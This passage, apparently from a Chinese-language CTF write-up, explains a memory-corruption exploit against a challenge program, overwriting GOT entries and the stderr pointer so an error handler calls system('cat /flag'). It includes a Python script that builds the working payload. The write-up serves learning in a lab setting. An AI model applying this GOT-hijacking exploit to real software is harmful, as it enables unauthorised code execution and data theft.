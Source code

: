 ![](hg2023/10.png)

于是我们可以通过修改 got 表里面的地址，来劫持执行流。

我一开始试图直接修改某个地址到 one_gadget，但是发现不太工作。

然后我注意到，`yyerror` 函数中，会调用 `fprintf(stderr, ...)`, 而 `stderr` 刚好在我们能修改的区间内，于是可以把它改成一个我们可控的位置，随后调用 `system("cat /flag")`。

对于可控的位置，我直接选择了 `result_buffer` 内部。然后我们需要知道 libc 和程序的基址，以便算出 `system` 和 `result_buffer` 的地址。

这两者都能在 got 表中找到，使用过的函数会指向 libc，未使用过的则指向程序本身。

```python
import os, base64, subprocess

fprintf = 0x51D00
system = 0x4C3A0
v = system - fprintf

payload = '\n'.join([
    '1/0',
    'PUT X ((GET X) + Y)'.replace('X', str((-44) % 2**32)).replace('Y', str(v % 2 ** 32)),
    'PUT Z ((GET X) + Y)'.replace('X', str((-24) % 2**32)).replace('Y', str((0x6100 + 137 * 4 - 0x1176) % 2**32)).replace('Z', str((-8) % 2**32)),
    'PUT Z ((GET X) + Y)'.replace('X', str((-23) % 2**32)).replace('Y', '0').replace('Z', str((-7) % 2**32)),
    'PUT 137 ' + str(int.from_bytes(b'cat ', 'little')),
    'PUT 138 ' + str(int.from_bytes(b'/fla', 'little')),
    'PUT 139 ' + str(int.from_bytes(b'g\0', 'little')),
    '1/0',
]) + '\n'
print(payload)
open('ans.txt', 'w').write(base64.b64encode(payload.encode()).decode() + '\nEOF\n')
```
